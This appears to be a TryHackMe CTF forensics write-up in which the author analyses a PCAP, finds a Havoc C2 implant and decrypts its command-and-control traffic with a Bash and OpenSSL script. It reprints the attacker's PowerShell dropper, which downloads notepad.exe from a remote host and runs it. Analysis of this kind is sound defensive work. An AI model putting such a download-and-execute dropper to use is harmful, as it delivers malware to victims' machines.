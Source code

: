 layout: default
title: Mayhem CTF Write-Up

# 🕵️‍♂️ Mayhem CTF Forensics Tryhackme

Ever cracked open a PCAP and uncovered a full-on malware operation hiding in plain sight? That’s exactly what this challenge was all about. From suspicious PowerShell scripts to sneaky HTTP traffic and full Havoc C2 decryption, this forensic journey had it all. I’ll walk you through how I broke it down — from protocol analysis to automating the entire decryption process with a bit of Bash magic. Let’s dive into the chaos of Mayhem.

![alt text](image-12.png)


## 📘 Challenge Overview

**Room Link:** [Mayhem](https://tryhackme.com/room/mayhemroom)

> Beneath the tempest's roar, a quiet grace,
> Mayhem's beauty in a hidden place.
> Within the chaos, a paradox unfolds,
> A tale of beauty, in disorder it molds.

---

## 🔍 Initial Network Analysis

1. Opened the PCAP file in **Wireshark**.
![alt text](image.png)
2. Navigated to **Statistics → Protocol Hierarchy** to understand the traffic distribution.
![alt text](image-1.png)
3. Noticed a large amount of **HTTP traffic** — a potential channel for C2.

---

## 📦 Suspicious File Transfers

Following the most active HTTP streams revealed:

- Two files were transferred:
  - `install.ps1`
  - `notepad.exe`
![alt text](image-2.png)
The PowerShell script `install.ps1` initiated the download of `notepad.exe`.
![alt text](image-3.png)
Using **Follow HTTP Stream** in Wireshark:
- Confirmed the download behavior.
- Exported both files from the PCAP.
![alt text](image-4.png)
![alt text](image-6.png)
- Rewrited `Install.ps1`
    ```powershell
    $URL = "http://10.0.2.37:1337/notepad.exe";
    $Download_PATH = "C:\Users\paco\Downloads\notepad.exe";
    Invoke-WebRequest -Uri $URL -OutFile $Download_PATH;
    $downloader = New-Object System.Net.WebClient;
    $downloader.DownloadFile($URL, $Download_PATH);
    Start-Process -Filepath $Download_PATH
    ```
---

## 🔥 Malware Detection

After extraction:

- Generated the hash of `notepad.exe`.

    ![alt text](image-7.png)

- Checked the hash on a **Threat Intelligence Platform** (e.g., VirusTotal).

    ![alt text](image-8.png)

**Result:**  
The file was confirmed to be malicious — identified as a **Havoc C2**.

---

## 🧠 Research & C2 Decryption

Conducted research and found:

- An open-source **Havoc C2** repository on GitHub - [Havoc Implementation](https://github.com/HavocFramework/Havoc)
- Documentation explaining the encryption logic (AES-based) - [Havoc Forensics](https://www.immersivelabs.com/resources/blog/havoc-c2-framework-a-defensive-operators-guide)
- A decryption script included in the repo - [Havoc C2 Forensics Github Tool](https://github.com/Immersive-Labs-Sec/HavocC2-Forensics)

### Steps Taken:

- Studied how the decryption routine works.
- Extracted **AES keys** from the traffic the first request after notepad.exe
![alt text](magic_bytes-1.png)

    ```bash
    [+] Key: 946cf2f65ac2d2b868328a18dedcc296cc40fa28fab41a0c34dcc010984410ca
    [+] IV: 8cd00c3e349290565aaa5a8c3aacd430
    ```

- Used **CyberChef** to manually decode the first 4 C2 packets.
    ![alt text](image-9.png)

### Observations:

- After few decryption of traffic, I noticed that each command from the attacker was followed by two responses:
  - An `HTTP/Response`
  - Two `HTTP/Request` packets
- Packets appeared **out of order**, requiring manual reassembly for accurate decryption.

---

## 🛠️ Automation via Bash Script

To automate and simplify the process:

- I Wrote a **Bash script** to:
  - Automatically extract AES keys
    ```bash
        # PCAP file to analyze
        PCAP="traffic.pcapng"

        # Function to parse HAVOC request header
        parse_header() {
        local hex="$1"

        # Extract fields based on byte sizes (in hex characters)
        length_field="${hex:0:8}"       # 4 bytes
        magic_byte="${hex:8:8}"         # 4 bytes
        agent_id="${hex:16:8}"          # 4 bytes
        ignore="${hex:24:16}"           # 8 bytes
        declare -g AES_KEY="${hex:40:64}"  # 32 bytes
        declare -g AES_IV="${hex:104:32}"  # 16 bytes

        length_dec=$((16#$length_field))

        if [[ "$magic_byte" == "deadbeef" ]]; then
            echo -e "\n✅ Magic bytes matched! - ${RED}Havoc has been detected${NC}\n"
            echo -e "  [-] Length Field : ${length_dec}"
            echo -e "${GREEN}  [-] Magic Bytes  : ${magic_byte}${NC}"
            echo -e "  [-] Agent ID     : ${agent_id}"
            echo -e "${RED}  [-] AES Key      : ${AES_KEY}"
            echo -e "  [-] AES IV       : ${AES_IV}${NC}"
        else
            echo "❌ Magic bytes mismatch (expected deadbeef, got $magic_byte)"
        fi
        }

    ```
  - Reassemble HTTP packet streams in correct order and map the reuqets with its answers and delete the empty packets.
    - the request content length != 20 and delete the 40 first bits
        ```bash
            echo "${REQUEST_1:40}" | xxd -r -p | decrypt
        ```
    - The response content length != 12 and delte the 24 first bits
        ```bash
            echo "${RESPONSE:24}" | xxd -r -p | decrypt
        ```
  - Decrypt payloads using embedded decryption logic (compatible with CyberChef or OpenSSL) 
    ```bash
    # Function to decrypt payloads using OpenSSL AES-256-CTR
    decrypt() {
    openssl enc -d -aes-256-ctr -K "$AES_KEY" -iv "$AES_IV" 2>/dev/null
    }
    ```

This enabled complete C2 traffic decryption.
    
![alt text](image-10.png)
![alt text](image-11.png)
---

## ✅ Outcome

Successfully:

- Identified malware deployment via `PowerShell`
- Detected and classified the payload as `Havoc C2`
- Decrypted the `command-and-control` traffic

---

## 🧰 Tools Used

- `Wireshark`
- `tshark`
- `CyberChef`
- `Bash`
- `VirusTotal`
- GitHub (Havoc C2 source)

---

## 📂 Artifacts

- `install.ps1`  - Sha1 hash: `2628320d154dff702ca2a4674af0432f6f08161a`
- `notepad.exe` (Havoc Payload)  - SHA1 Hash: `cdbab09ab27234cbd0739c438f4a96f6f7b53f50`
- Extracted AES Keys:
    - AES Key: `946cf2f65ac2d2b868328a18dedcc296cc40fa28fab41a0c34dcc010984410ca`
    - IV Key: `8cd00c3e349290565aaa5a8c3aacd430`
- Decrypted C2 traffic  
- Bash automation script

---

## ✍️ Notes

- The decryption technique leveraged public information about Havoc’s encryption method.
- HTTP traffic order was inconsistent — proper stream ordering was key to successful decoding.

---

> 🏁 *Flag successfully retrieved through decrypted traffic.*
